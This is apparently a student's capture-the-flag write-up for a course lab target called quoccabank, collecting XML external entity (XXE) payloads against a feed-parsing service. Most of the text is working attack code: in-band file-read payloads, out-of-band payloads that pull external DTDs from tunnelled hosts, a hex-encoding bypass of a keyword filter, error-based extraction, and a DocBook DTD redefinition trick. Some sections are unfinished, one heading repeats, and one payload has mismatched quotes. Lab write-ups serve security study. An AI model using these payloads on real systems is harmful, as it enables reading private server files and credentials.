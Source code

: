## v1.feedifier.quoccabank.com

Used pastebin raw paste - https://pastebin.com/RyQepthP

In-band basic xxe payload:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM 'file:///flag_64b3ebd165d9508735bc8a29ddebb285'> ]>
<rss> <channel>
<item> <description>1</description> <link>1</link> <title>&xxe;</title>
</item> </channel> </rss>
```

## v2.feedifier.quoccabank.com (TBD) 
Used pastebin + locally hosted url (since I wanted http)

Out-band xxe payload:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY>
  <!ENTITY % dtd SYSTEM "http://strong-gecko-39.loca.lt/feedifierv2.txt">
  %dtd;
]>
<rss>
<channel>
	<item>
		<description>1</description>
		<link> 1</link>
		<title>&inject;</title>
	</item>
</channel>
</rss>
```

And at http://strong-gecko-39.loca.lt/feedifierv2.txt
```xml
<!ENTITY inject SYSTEM "file:///flag_0054c423ef634e00b4a586f4142e7522">
```


# v3.feedifier.quoccabank.com
1. Here, the sanitiser was checking keywords in my secondary file. (probably a regex matching). 
So, to bypass this, you can try using hex encodings (Eg; f is 0x66)

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
  <!ENTITY % dtd SYSTEM "http://warm-panther-32.loca.lt/payload3.txt">
  %dtd;
  %comb;
]>
<rss>
<channel>
	<item>
		<description>1;</description>
		<link> 1;</link>
		<title>&inject;</title>
	</item>
</channel>
</rss>
```xml

At http://strong-gecko-39.loca.lt/feedifierv2.txt:
```xml
<!ENTITY % comb "<!ENTITY inject SYSTEM '&#x66;ile:///&#x66;lag_d9cd6fcd14d4597712c583d5fc1e5362'>">
```


2. Alternative method: Error based XXE

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
  <!ENTITY % dtd SYSTEM "http://warm-panther-32.loca.lt/payload3.txt">
  %dtd;
]>
<rss>
<channel>
	<item>
		<description>1</description>
		<link>1</link>
		<title>&dtd;</title>
	</item>
</channel>
</rss>
```


And at http://warm-panther-32.loca.lt/payload3.txt:
```xml
<!ENTITY % first "fi">
<!ENTITY % second "le:////fl">
<!ENTITY % third "ag_d9cd6fcd14d4597712c583d5fc1e5362">

<!ENTITY % dummy1 "<!ENTITY &#x25; trick SYSTEM '/%first%second%third;'>">

%dummy1         --->  resolved into <!ENTITY % trick SYSTEM 'file:///flag_{...}'>

<!ENTITY % dummy2 "<!ENTITY &#x25; error SYSTEM '/%trick;'>">

%dummy2         --> puts an invalid flag/flag/{...} file

%error 
```

# v3.feedifier.quoccabank.com
1. Overwrite a dtd defintion from docbook. Note: only the first definition is used and rest are ignored.
You need to find a paramterised definition which is also executed in the docbook

Error based extraction:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE data [
  <!ENTITY % importDocbook SYSTEM "file:///usr/share/sgml/docbook/dtd/4.5/docbookx.dtd">
  <!ENTITY % ISOamso '<!ENTITY &#37; flag SYSTEM "file:///flag{...}">'>
  <!ENTITY &#37; win "<!ENTITY &#38;#37; newvar SYSTEM "flag;">'>

  %importDocbook;
  %win;
]>
<rss>
<channel>
	<item>
		<description>1</description>
		<link>1</link>
		<title>&dtd;</title>
	</item>
</channel>
</rss>
```

# letters.quoccabank.com (TBD)

# signin (TBD)

# wallet.quoccabank.com


